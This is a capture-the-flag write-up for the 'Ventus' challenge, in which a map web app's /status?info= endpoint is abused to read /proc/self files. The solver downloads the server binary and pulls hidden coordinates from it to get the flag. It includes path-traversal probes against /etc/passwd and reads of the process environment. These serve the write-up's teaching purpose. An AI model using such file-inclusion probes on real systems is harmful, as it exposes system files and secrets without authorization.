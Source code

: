 # Ventus CTF Challenge Writeup
## Initial Reconnaissance

The challenge presented a map-based web application with:
- Interactive Leaflet map centered on coordinates `[62.912218990814814, 7.440255332128054]` (Norway)
- Comment in source: "verdens navle" (Norwegian for "world's navel")
- Two main functionalities:
  - Map clicking sends coordinates to `/check` endpoint
  - Status tab loads diagnostics from `/status?info=` endpoint
- Binary name revealed as `/opt/globetrotter`

## Exploration Attempts

### 1. Coordinate Guessing
Initially tried various coordinate combinations:
- Default center coordinates → "This is NOT my favorite place!"
- Special values (0,0), (NaN, Infinity) → Same response
- Famous locations → No success

### 2. LFI Testing on Status Endpoint
Tested the `/status?info=` parameter for Local File Inclusion:
```bash
/status?info=../../../etc/passwd  # "LFI attempt detected ╰（‵□′）╯"
/status?info=environ              # Timeouts but works
/status?info=maps                 # Shows process memory maps
```

The status endpoint could read `/proc/self/` files but had LFI detection for path traversal.

### 3. Binary Analysis Discovery
Key breakthrough came when accessing the binary through `/status?info=exe`:
```bash
curl -s "https://[...]/status?info=exe" | strings | grep -i flag
```

Found critical strings:
- `/opt/some_really_long_and_impossible_to_guess_path_123/flag.txt`
- `Wow, you found my special place!`
- Function names: `read_flag`, `special_place`

## Solution

### Binary Download & Analysis
```bash
# Download the binary
curl -s "https://[...]/status?info=exe" -o globetrotter

# Find the special_place data structure
objdump -t globetrotter | grep special
# 0000000000026020 g     O .data  0000000000000130              special_place
```

### Coordinate Extraction
The `special_place` structure at offset `0x26020` contained 19 coordinate pairs stored as double-precision floats:

```python
import struct

with open('globetrotter', 'rb') as f:
    f.seek(0x26020)
    data = f.read(0x130)  # 304 bytes

coords = []
for i in range(0, len(data), 16):  # 16 bytes per pair (2x8-byte doubles)
    x_bytes = data[i:i+8]
    y_bytes = data[i+8:i+16]
    x = struct.unpack('<d', x_bytes)[0]
    y = struct.unpack('<d', y_bytes)[0]
    coords.append((x, y))
```

### Flag Retrieval
Testing the first coordinate pair:
```bash
curl -X POST -H "Content-Type: application/json" \
  -d '{"x":-966558.74,"y":11392193.54}' \
  https://[...]/check
```

**Response**: 
```json
{
  "message": "🎯 Wow, you found my special place! 🎯\n\nKCSC{have_you_heard_of_the_Jan_Mayen_Special_Forces?}"
}
```

## Key Insights

1. **Proc filesystem access**: The `/status?info=` endpoint could read `/proc/self/` files
2. **Binary analysis over guessing**: Rather than brute-forcing coordinates, reverse engineering the binary revealed the exact solution
3. **Data structure understanding**: The coordinates were stored as a binary array of IEEE 754 doubles

## Tools Used
- `curl` - Web requests and binary download
- `objdump` - Binary analysis and symbol table inspection  
- `strings` - String extraction from binary
- `hexdump` - Raw binary data examination
- Python `struct` module - Binary data parsing

**Flag**: `KCSC{have_you_heard_of_the_Jan_Mayen_Special_Forces?}`
